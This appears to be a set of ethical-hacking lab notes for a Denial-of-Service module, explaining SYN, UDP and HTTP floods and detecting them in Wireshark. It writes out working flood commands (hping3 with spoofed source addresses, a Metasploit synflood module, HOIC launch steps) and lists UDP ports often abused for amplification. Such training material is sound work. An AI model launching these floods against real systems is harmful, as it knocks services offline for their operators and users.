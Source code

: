 # 10 - DoS

## Module 10 - Denial-of-Service

<details>

<summary>EMPTY</summary>



</details>

####

## **SYN Flooding**

**SYN flooding** is a type of cyberattack that targets a server by overwhelming it with a flood of fake or incomplete connection requests (SYN packets). These requests are part of the 3-way handshake process used to establish a connection between a client and a server. In a SYN flood attack, the attacker sends a large number of SYN packets without completing the handshake, tying up the server's resources and preventing it from servicing legitimate connections.

This can lead to a denial of service (DoS) or distributed denial of service (DDoS) attack, causing the server to become unresponsive. Mitigation strategies include rate limiting, SYN cookies, and deploying intrusion detection and prevention systems.

### **Perform a SYN Flooding on a Target Host using hping3**

**Target:**

* Wireshark-\&gt;Ethernet

#### **Attacker**

* **hping3 -S \<Target IP> -a \<Spoofable IP> -p \<Port to flood> -flood**
  * **-S: Set the SYN flag**
  * **-a: Spoof the IP address**
  * **-p: Specify the destination port, e.g 22**
  * **--flood: Send a huge number of packets**

#### **Target**

* Check wireshark

#### **Attacker (Perform PoD)**

* **hping3 -d 65538 -S -p 21 –flood \<Target IP>**
  * **-d: Specify data size**
  * **-S: Set the SYN flag**

#### **Attacker (Perform UDP application layer flood attack)**

* nmap -p 139 10.10.10.19 (check service)
* **hping3 -2 -p 139 –flood \<Target IP>**
  * **-2: Specify UDP mode**

### **SYN Flooding using Metasploit**

```bash
nmap -p 21 10.10.10.10 #check open ports or specific port

msfconsole -q #start msfconsole
use auxiliary/dos/tcp/synflood #SYN Flooding module
set RHOST <Target IP>
set RPORT 21
set SHOST <Spoofed IP Address> #Our fake IP 
set TIMEOUT 20000 and press Enter

#open Wireshark and View Flood attack on victim via Wireshark, use filter:
tcp.port=21
```

## HTTP Flooding Attack

**HTTP flood attack**, is a type of cyberattack aimed at overwhelming a web server by sending a massive volume of HTTP requests. These requests often mimic legitimate user interactions with a website, such as GET or POST requests for web pages or resources. The intent is to consume the server's resources, exhaust its processing capacity, and cause it to become slow or unresponsive, resulting in a denial of service (DoS) situation.

Attackers may employ botnets or distributed networks of compromised devices to intensify the attack. Defenses against HTTP flooding include rate limiting, traffic analysis, and content delivery networks (CDNs) to absorb excess traffic and protect the target server.

### HTTP Flooding Attack using HOIC (High Orbit Ion Cannon)

* Open HOIC.
* Set threads = 20
* Click + to add target
* Enter Target http://\<Target IP> -> Power = High -> Booster = GenericBoost.hoic
* Click **FIRE TEH LAZER!** to launch attack

## Detecting DoS Attack traffic <a href="#user-content-detecting-dos-attack-traffic" id="user-content-detecting-dos-attack-traffic"></a>

KFSensor Free Trial: [http://www.keyfocus.net/kfsensor/](http://www.keyfocus.net/kfsensor/)\
Wireshark: [https://www.wireshark.org/](https://www.wireshark.org/)

To find DOS (SYN and ACK) :&#x20;

`tcp.flags.syn == 1 , tcp.flags.syn == 1 and tcp.flags.ack == 0`

To find passwords :&#x20;

`http.request.method == POST`

To find DOS -> Look for Red and Black packets with around 1-2 simple packets in between and then pick any packet and check the Source and Destination IP with port if need.

To find Wireshark DOS attack:

* statistic -> IPv4 statistic -> source and destination address&#x20;

Or

* View Flood attack on victim via Wireshark | use filter tcp.port=21

#### Another method

Find the dos attacker ip using Wireshark

Statistic -> conversion

identified ip , which has flooding server with SYN request.

Or&#x20;

get the statistics of ipv4 -> we can see that Packets B -> A are null, because the're not reply pack.

{% embed url="https://github.com/Samsar4/Ethical-Hacking-Labs/blob/master/9-Denial-of-Service/3-Detecting-DoS-Traffic.md" %}

{% content-ref url="../wireshark-or-tcpdump.md" %}
[wireshark-or-tcpdump.md](../wireshark-or-tcpdump.md)
{% endcontent-ref %}

#### **Other UDP-based applications and their ports**

* CharGen UDP Port 19
* SNMPv2 UDP Port 161
* QOTD UDP Port 17
* RPC UDP Port 135
* SSDP UDP Port 1900
* CLDAP UDP Port 389
* TFTP UDP Port 69
* NetBIOS UDP Port 137,138,139
* NTP UDP Port 123
* Quake Network Protocol UDP Port 26000
* VoIP UDP Port 5060
